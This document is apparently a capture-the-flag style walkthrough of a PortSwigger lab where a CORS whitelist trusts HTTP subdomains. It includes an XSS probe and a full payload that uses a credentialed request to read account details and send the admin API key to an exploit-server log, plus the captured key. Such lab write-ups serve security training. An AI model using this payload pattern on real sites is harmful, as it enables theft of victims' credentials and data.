







# CORS vulnerability with trusted insecure protocols

## Lab Description :


## Overview :
Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. For example, when the application receives the following request:

```html
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```

The application responds with:

```html
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```
In this situation, an attacker who is in a position to intercept a victim user's traffic can exploit the CORS configuration to compromise the victim's interaction with the application. This attack involves the following steps:

The victim user makes any plain HTTP request.

The attacker injects a redirection to:

`` http://trusted-subdomain.vulnerable-website.com ``

The victim's browser follows the redirect.

The attacker intercepts the plain HTTP request, and returns a spoofed response containing a CORS request to:

``https://vulnerable-website.com``

The victim's browser makes the CORS request, including the origin:
``http://trusted-subdomain.vulnerable-website.com``

The application allows the request because this is a whitelisted origin. The requested sensitive data is returned in the response.
The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control.
This attack is effective even if the vulnerable website is otherwise robust in its usage of HTTPS, with no HTTP endpoint and all cookies flagged as secure.

## Solution :
Login using the credentials - ``wiener:peter``



Analysis -
When we give Origin: evil.com or Origin: null , we don't see any ACAO header in the response.

But when we give Origin : ``http://subdomain.lab-domain.com``, we get the ``Access-Control-Allow-Origin`` in the response. [Note that we gave http instead of https]



So if we provide subdoamin of the website along with http insecure protocol, we are able to bypass the whitelist.

Finding an XSS -
In real life cases, if an attacker performs a MITM attack , then he can exploit the CORS configuration to compromise the victim's interaction with the application. But in this lab we can't perform MITM attacks.

So the other way around to steal Administrator's API keys is by exploiting an XSS vulnearbility.

When we click on checkstock, we are taken to a new tab to display the result.



If we enter a simple alert() script in productID parameter, we get a pop up which confirms that it is vulnerable to XSS.
```html
GET /?productId=<script>alert("Hey")</script>&storeId=1 HTTP/1.1
Host: stock.0af70017037181d080154981006d004f.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```


This productID parameter is vulnerable to XSS

Exploit -
Go to exploit server and enter the following XSS payload to steal the API key of admin.

```html
<script>
    document.location="http://stock.0af70017037181d080154981006d004f.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0af70017037181d080154981006d004f.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a5f00ab0389812580e4481001de00fc.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

Deliver the exploit to victim & view AccessLog , there we will find the API key of admin in the URL portion.

```text
{  "username": "administrator",  "email": "",  "apikey": "PULwsUrbRddKwMMMhie39ANbcbUd6ZSI",  "sessions": [    "S6YLHwRxIswqvCLXhlVpPU6eaR8Dkppi"  ]}
```


Submit the API key of admin to solve the lab.



#### Visit The Next Page For The Next Level :)
